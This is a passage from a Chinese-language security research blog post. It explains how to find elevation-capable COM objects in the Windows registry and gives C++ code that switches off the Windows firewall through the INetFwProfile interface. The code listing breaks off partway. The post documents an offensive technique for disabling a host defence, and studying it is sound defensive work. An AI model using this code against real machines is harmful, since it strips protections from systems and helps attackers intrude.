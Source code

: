 **注：**

经过实际测试，以上三项缺一不可

接下来，按照这个要求搜索注册表寻找可用的COM对象

搜索位置：`HKEY_LOCAL_MACHINE\SOFTWARE\Classes\CLSID`

搜索关键词：`Elevation`

经过一段时间的搜索，我找到了一个可用的COM对象，位置：`HKEY_LOCAL_MACHINE\SOFTWARE\Classes\CLSID\{E2B3C97F-6AE1-41AC-817A-F6F92166D7DD}`

信息如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2018-5-20/2-1.png)


`HKEY_LOCAL_MACHINE\SOFTWARE\Classes\CLSID\{E2B3C97F-6AE1-41AC-817A-F6F92166D7DD}\Elevation`的信息如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2018-5-20/2-2.png)

满足COM Elevation Moniker的要求

通过搜索名称“HNetCfg.FwPolicy2”发现这个COM对象同防火墙的操作有关


## 0x03 编写c++程序实现关闭防火墙
---

对应COM接口`INetFwProfile`，于是查找资料尝试编写c程序实现

通过COM接口INetFwProfile关闭防火墙的完整c++代码如下：

```
#include "stdafx.h"
#include <Strsafe.h>
#include <windows.h>
#include <netfw.h>

int _tmain(int argc, _TCHAR* argv[])
{
	INetFwMgr *g_pFwMgr = NULL;
	INetFwProfile *g_pFwProfile = NULL;
	INetFwPolicy *g_pFwProlicy = NULL;
	CoInitializeEx(NULL,COINIT_MULTITHREADED);
	VARIANT_BOOL fwEnabled;
	HRESULT hr = CoCreateInstance(__uuidof(NetFwMgr), 0, CLSCTX_INPROC_SERVER,__uuidof(INetFwMgr),reinterpret_cast<void **>(&g_pFwMgr));
	if (SUCCEEDED(hr) && (g_pFwMgr != NULL))
	{
		hr = g_pFwMgr->get_LocalPolicy( &g_pFwProlicy );
		if (SUCCEEDED(hr) && (g_pFwProlicy != NULL))
		{
			hr = g_pFwProlicy->get_CurrentProfile( &g_pFwProfile );
			hr = g_pFwProfile->get_FirewallEnabled(&fwEnabled);
			if (fwEnabled != VARIANT_FALSE)  
			{    
				printf("The firewall is on.\n");  
				hr = g_pFwProfile->put_FirewallEnabled(VARIANT_FALSE);  
				if (FAILED(hr))  
				{  
					printf("put_FirewallEnabled failed: 0x%08lx\n", hr);  
					return 0;
				}  
				printf("The firewall is now off.\n");  
			}  
			else  
			{  
```